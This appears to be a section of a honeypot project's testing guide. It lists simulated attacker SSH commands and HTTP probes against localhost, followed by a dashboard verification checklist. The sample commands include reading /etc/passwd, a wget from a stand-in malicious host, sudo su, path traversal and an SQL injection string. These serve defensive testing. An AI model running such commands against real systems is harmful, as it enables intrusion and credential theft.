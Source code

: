 ### SSH Commands Test
Once connected (even if auth fails, some honeypots capture commands):
```bash
ls -la
cat /etc/passwd
whoami
ps aux
netstat -an
wget http://malicious-site.com/script.sh
chmod +x malware.bin
sudo su
```

### HTTP Attack Simulation
Open these URLs in browser:
```
http://localhost:8080/admin
http://localhost:8080/admin/login
http://localhost:8080/phpmyadmin
http://localhost:8080/wp-admin
http://localhost:8080/../../../etc/passwd
```

### Using curl (Advanced)
```cmd
REM GET request
curl http://localhost:8080/admin

REM POST with credentials
curl -X POST http://localhost:8080/admin/login -d "username=admin&password=admin123"

REM SQL Injection attempt
curl "http://localhost:8080/search?q=1' OR '1'='1"

REM Custom User-Agent
curl -A "Malicious-Bot/1.0" http://localhost:8080/
```

## ✅ Verification Checklist

### Empty State (Before Traffic)
- [ ] "Detected Attackers" shows 0 in all counters
- [ ] Attacker list shows: "No attackers detected yet"
- [ ] Credentials section shows: "No credential attempts captured"
- [ ] Commands section shows: "No SSH commands executed yet"
- [ ] HTTP requests shows: "No HTTP requests captured"

### With Traffic (After Attack Simulation)
- [ ] Counters update with non-zero values
- [ ] Attacker IP appears in list with red border
- [ ] Credentials show username/password attempts
- [ ] Commands show with color coding:
  - Red = destructive (rm, delete)
  - Orange = download (wget, curl)
  - Green = recon (ls, cat)
  - Purple = privilege (sudo, chmod)
- [ ] HTTP requests show method badges (GET, POST)
